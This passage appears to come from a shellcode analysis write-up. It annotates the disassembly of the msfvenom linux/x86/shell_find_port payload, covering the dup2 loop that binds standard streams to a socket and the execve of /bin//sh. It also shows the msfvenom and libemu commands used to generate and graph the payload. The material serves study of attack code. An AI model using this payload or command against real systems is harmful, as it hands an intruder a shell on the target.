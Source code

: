 ```
00000021  B03F              mov al,0x3f //eax=0x3f, system call: sys_dup2 <-----------|
00000023  CD80              int 0x80                                                  |
                                                                                      |
sys_dup2(port number, stderr)                                                         |
redirect stderr output to found established connection.                               |
                                                                                      |
00000025  49                dec ecx                                                   |
00000026  79F9              jns 0x21__________________________________________________|

While ecx is not negative loop back, ie do this for stdout and stdin too.

00000028  50                push eax //Push return value of dup which is 0.
00000029  682F2F7368        push dword 0x68732f2f
0000002E  682F62696E        push dword 0x6e69622f

Pushed in reversed order of characters (little endian)
Corrected order and ascii:
    //sh
    /bin
                            

00000033  89E3              mov ebx,esp //set ebx to point to start of /bin//sh
00000035  50                push eax //Push return value of dup which is 0.
00000036  53                push ebx //Push address of /bin//sh
00000037  89E1              mov ecx,esp //ecx = address of /bin//sh
00000039  99                cdq  //extend eax to edx, in this case sets edx to 0's.
0000003A  B00B              mov al,0xb //eax=0x0b, system call: sys_execve
0000003C  CD80              int 0x80

The call:
int execve("/bin//sh", {"/bin//sh",0}, 0)

```

I also graphed it with Libemu:

```
root@kali:~/Desktop# msfvenom --platform=linux -a x86 -p linux/x86/shell_find_port CMD=ls | /opt/libemu/bin/sctest -vSs 10000 -G out.dot
....
lots of sys_getpeername(2) calls.
graph output
root@kali:~/Desktop# dot -Tpng out.dot -o out.png
```